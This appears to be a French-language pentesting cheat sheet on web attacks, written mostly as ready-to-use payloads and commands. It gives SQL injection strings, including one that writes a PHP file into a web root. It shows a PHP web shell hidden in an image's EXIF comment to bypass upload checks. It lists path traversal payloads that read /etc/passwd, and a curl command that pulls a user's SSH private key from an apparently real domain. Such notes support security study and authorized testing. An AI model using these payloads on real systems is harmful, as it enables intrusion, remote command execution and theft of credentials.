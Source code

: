 ### Vulnérabilités Web :
#### SQLi :
- Antisèche Pentestmonkey
- Essayez admin'# (nom d'utilisateur valide, voir antisèche netsparker sqli)
- Essayez abcd' or 1=1;--
- Utilisez UNION SELECT null,null,.. au lieu de 1,2,.. pour éviter les erreurs de conversion de type
- Pour mssql :
  - xp_cmdshell
  - Utilisez concat pour lister 2 données de colonne ou plus en une
- Pour mysql :
  - essayez a' or 1='1 -- -
  - A' union select "" into outfile "C:\xampp\htdocs\run.php" -- -'

#### Upload de fichier :
- Changer le type MIME
- Ajouter des en-têtes d'image
- Ajouter une charge utile dans le commentaire exiftool et nommer le fichier comme file.php.png
- ExifTool 1. <?php system($_GET['cmd']); ?> //shell.php 2. exiftool "-comment<=shell.php" malicious.png 3. strings malicious.png | grep system

#### Utilisez un outil automatisé
```bash
nikto # nikto -h $ip
nikto -h $ip -p 80,8080,1234 # test de différents ports avec un scan
```

#### Git
Télécharger .git
```bash
mkdir <DESTINATION_FOLDER>
./gitdumper.sh <URL>/.git/ <DESTINATION_FOLDER>
# Extraire le contenu .git
mkdir <EXTRACT_FOLDER>
./extractor.sh <DESTINATION_FOLDER> <EXTRACT_FOLDER>
```

#### LFI et RFI
Si LFI est trouvé, commencez par :
```bash
../../../../etc/passwd
# Les clés SSH sont
# Par défaut, SSH recherche id_rsa, id_ecdsa, id_ecdsa_sk, id_ed25519, id_ed25519_sk, et id_dsa
curl http://rssoftwire.com/noman/index.php?page=../../../../../../../../../home/noman/.ssh/id_rsa
# avec encodage
curl http://192.168.10.10/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

#### Énumération SSL
```bash
# Ouvrez une connexion
openssl s_client -connect $ip:443
```
